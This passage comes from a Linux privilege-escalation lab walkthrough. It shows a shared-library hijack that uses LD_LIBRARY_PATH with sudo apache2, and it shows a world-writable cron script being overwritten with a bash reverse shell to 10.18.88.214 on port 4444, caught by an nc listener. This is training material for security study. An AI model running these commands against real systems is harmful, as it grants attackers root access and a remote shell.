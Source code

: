 Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption><p>5</p></figcaption></figure>

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`

<figure><img src=".gitbook/assets/image (55).png" alt=""><figcaption><p>6</p></figcaption></figure>

### 7 - Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

`cat /etc/crontab`

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Since it's writable, we can replace its content with a malicious code. In this case "a rev shell"&#x20;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.18.88.214/4444 0>&1

# listener
nc -nvlp 4444

# we should get root after 1 minute.
```

